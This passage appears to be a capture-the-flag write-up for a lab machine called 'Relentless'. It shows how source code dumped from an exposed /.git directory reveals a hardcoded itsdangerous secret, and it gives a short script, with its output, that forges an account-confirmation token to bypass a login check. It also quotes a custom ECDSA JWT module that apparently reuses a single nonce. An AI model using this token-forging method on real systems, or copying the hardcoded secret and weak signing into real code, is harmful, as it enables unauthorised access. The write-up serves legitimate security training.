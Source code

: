 # Relentless

Earlier I found a subdomain **company-support:** `company-support.amzcorp.local` with a login page, I created an account and login but it returned **Access denied**:

<img width="1915" height="936" alt="image 19" src="https://github.com/user-attachments/assets/245601e6-5537-4a6d-958b-0b4617255916" />  

In source code I dumped from `/.git` , I need to create a code from my username and password using **URLSafeSerializer**, and send it to `/confirm_account` :

```bash
@blueprint.route('/confirm_account/<secretstring>', methods=['GET', 'POST'])
def confirm_account(secretstring):
    s = URLSafeSerializer('serliaizer_code')
    username, email = s.loads(secretstring)

    user = Users.query.filter_by(username=username).first()
    user.account_status = True
    db.session.add(user)
    db.session.commit()

    #return redirect(url_for("authentication_blueprint.login", msg="Your account was confirmed succsessfully"))
    return render_template('accounts/login.html',
                        msg='Account confirmed successfully.',
                        form=LoginForm())
```

Easy using this simple script:

```bash
from itsdangerous import URLSafeSerializer
string = URLSafeSerializer('serliaizer_code').dumps(["testquan", "testquan"])
print(string)
```

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ python3 url.py
WyJ0ZXN0cXVhbiIsInRlc3RxdWFuIl0.yRVvL3ptf5GtUqIMqS-M5CbnnNk
```

<img width="1914" height="939" alt="image 20" src="https://github.com/user-attachments/assets/a1c9ac4b-2518-4d78-8c6a-67ba568f7b36" />  

I login to my account again:

<img width="1913" height="938" alt="image 21" src="https://github.com/user-attachments/assets/d1da9170-ce0e-461c-9e18-c17c864a83c4" />  

- I can create a ticket
- Tony will handle it

In file `custom_jwt.py` :

```bash
import base64
from ecdsa import ellipticcurve
from ecdsa.ecdsa import curve_256, generator_256, Public_key, Private_key, Signature
from random import randint
from hashlib import sha256
from Crypto.Util.number import long_to_bytes, bytes_to_long
import json

G = generator_256
q = G.order()
k = randint(1, q - 1)
d = randint(1, q - 1)
pubkey = Public_key(G, G*d)
```